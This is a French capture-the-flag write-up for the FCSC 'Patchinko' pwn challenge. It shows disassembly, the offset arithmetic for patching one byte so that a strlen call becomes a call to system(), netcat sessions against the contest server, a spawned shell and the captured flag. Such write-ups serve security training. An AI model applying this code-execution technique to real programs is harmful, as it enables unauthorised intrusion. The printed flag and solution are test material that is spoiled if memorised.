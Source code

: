 # <center>Patchinko</center>

<center>

![](./pachinko.png)

</center>

Pour ce challenge on se retroube sur un executable qui nous demander de modifier la valeur d'un octet de celui-ci pour ensuite se lancer.

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Patchinko$ nc challenges1.france-cybersecurity-challenge.fr 4009
    ================================
    == Patchinko Gambling Machine ==
    ================================

    We present you the new version of our Patchinko Gambling Machine!
    This is a game of chance: you need to guess a 64-bit random number.
    As we have been told that it is quite hard, we help you.
    Before the machine executes its code, you can patch *one* byte of its binary.
    Choose wisely!

    At which position do you want to modify (base 16)?
    >>> aa
    Which byte value do you want to write there (base 16)?
    >>> aa
    == Let's go!
    Hello! Welcome to Patchinko Gambling Machine.
    Is this your first time here? [y/n]
    >>> y
    Welcome among us! What is your name?
    >>> saymant
    Nice to meet you saymant!
    Guess my number
    -2907621876399985308
    -2907621876399985308
    Wow, you win!! Congratulations! Contact us to claim your prize.

désassemblons l'executable pour voir ce qu'il se passe

    pwndbg> disass main
    Dump of assembler code for function main:
       0x0000000000400826 <+0>:	push   rbp
       0x0000000000400827 <+1>:	mov    rbp,rsp
       0x000000000040082a <+4>:	sub    rsp,0x60
       0x000000000040082e <+8>:	mov    rax,QWORD PTR [rip   +0x20084b]        # 0x601080 <stdout@@GLIBC_2.2.5>
       0x0000000000400835 <+15>:	mov    ecx,0x0
       0x000000000040083a <+20>:	mov    edx,0x2
       0x000000000040083f <+25>:	mov    esi,0x0
       0x0000000000400844 <+30>:	mov    rdi,rax
       0x0000000000400847 <+33>:	call   0x400700 <setvbuf@plt>
       0x000000000040084c <+38>:	lea    rdi,[rip+0x205]        #     0x400a58
       0x0000000000400853 <+45>:	call   0x4006d0 <system@plt>
       0x0000000000400858 <+50>:	lea    rdi,[rip+0x231]        #     0x400a90
       0x000000000040085f <+57>:	mov    eax,0x0
       0x0000000000400864 <+62>:	call   0x4006e0 <printf@plt>
       0x0000000000400869 <+67>:	mov    rdx,QWORD PTR [rip   +0x200820]        # 0x601090 <stdin@@GLIBC_2.2.5>
       0x0000000000400870 <+74>:	lea    rax,[rbp-0xc]
       0x0000000000400874 <+78>:	mov    esi,0x4
       0x0000000000400879 <+83>:	mov    rdi,rax
       0x000000000040087c <+86>:	call   0x4006f0 <fgets@plt>
       0x0000000000400881 <+91>:	lea    rax,[rbp-0xc]
       0x0000000000400885 <+95>:	mov    rdi,rax
       0x0000000000400888 <+98>:	call   0x4006c0 <strlen@plt>
       0x000000000040088d <+103>:	sub    rax,0x1
    
       ...

On voit alors qu'on passe par un call de la fonction system() et un call de la fonction de strlen, tout deux dans la PLT. On voit aussi que le fgets() ne prends en compte que 0x4 octets (on ne va donc pouvoir rentrer que 4 charactères à cet endroit). Prenons l'adresse de cette fonction system()

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Patchinko$ objdump -d patchinko.bin | grep system
    00000000004006d0 <system@plt>:
      4006d0:	ff 25 62 09 20 00    	jmpq   *0x200962(%rip)        # 601038  <system@GLIBC_2.2.5>
      400853:	e8 78 fe ff ff       	callq  4006d0 <system@plt>

OK donc system se trouve à 0x4006d0.

On va d'arranger pour modif le strlen() par un system(), on sait donc qu'on devra modifier le 889e byte car dans l'executable desassemblé nous pouvons voir que strlen() se trouve au 889e octet (0x0000000000400888 + 1 pour arriver sur le strlen), il ne nous reste plus qu'à trouver quelle valeur nous allons mettre à cette adresse.

On va alors chercher cette valeur juste en calculant la distance qu'il y a entre le call de system et l'adresse de l'instruction qui suit le call de strlen (la fin du call de strlen)

    pwndbg> p/x 0x000000000040088d-0x00000000004006d0
    $7 = 0x1bd
    pwndbg> p/x 0x1000-0x1bd
    $8 = 0xe43

La valeur est donc 0x43. Testons ça !

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Patchinko$ nc challenges1.france-cybersecurity-challenge.fr 4009
    ================================
    == Patchinko Gambling Machine ==
    ================================

    We present you the new version of our Patchinko Gambling Machine!
    This is a game of chance: you need to guess a 64-bit random number.
    As we have been told that it is quite hard, we help you.
    Before the machine executes its code, you can patch *one* byte of its binary.
    Choose wisely!

    At which position do you want to modify (base 16)?
    >>> 889
    Which byte value do you want to write there (base 16)?
    >>> 43
    == Let's go!
    Hello! Welcome to Patchinko Gambling Machine.
    Is this your first time here? [y/n]
    >>> ls
    flag
    patchinko.bin
    patchinko.py
    Is this your first time here? [y/n]
    >>> cat flag

On arrive bien à executer la commande 'ls' mais on arrive pas à cat le flag, bizarre ...
Ah oui, c'est car comme nous l'avons vu dans l'analyse statique du binaire, le fgets ici ne va prendre que 4 charactères en compte (3 en fait car 3 + le null byte = 4 octets) essayons alors de pop un shell avec la commande 'sh'

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Patchinko$ nc challenges1.france-cybersecurity-challenge.fr 4009
    ================================
    == Patchinko Gambling Machine ==
    ================================
    
    We present you the new version of our Patchinko Gambling    Machine!
    This is a game of chance: you need to guess a 64-bit random     number.
    As we have been told that it is quite hard, we help you.
    Before the machine executes its code, you can patch *one*   byte of its binary.
    Choose wisely!
    
    At which position do you want to modify (base 16)?
    >>> 889
    Which byte value do you want to write there (base 16)?
    >>> 43
    == Let's go!
    Hello! Welcome to Patchinko Gambling Machine.
    Is this your first time here? [y/n]
    >>> sh
    ls
    flag
    patchinko.bin
    patchinko.py
    cat flag
    FCSC    {b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc447510   2998}
    
Voici donc notre flag ;)
